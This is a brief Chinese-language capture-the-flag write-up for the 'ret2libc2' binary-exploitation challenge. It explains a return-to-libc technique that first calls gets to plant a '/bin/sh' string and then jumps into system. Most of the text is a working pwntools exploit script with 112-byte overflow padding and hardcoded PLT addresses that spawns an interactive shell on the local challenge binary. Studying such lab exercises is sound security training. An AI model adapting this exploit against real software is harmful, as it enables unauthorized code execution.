

# ret2libc2

检查程序安全保护



该题与ret2libc1相似，知识没了/bin/sh字符串，我们需要自己读取字符串

payload如下

```python
from pwn import *

sh = process('./ret2libc2')

#system跳转地址
system_plt = 0x8048490
#gets跳转地址
gets_plt = 0x8048460
#接受字符串/bin/sh的地址 随便找一块数据段，以0结尾
sh_addr = 0x804a100

payload = flat([b'a'*112,gets_plt,system_plt,sh_addr,sh_addr])

sh.sendline(payload)
sh.sendline(b'/bin/sh')

sh.interactive()
```

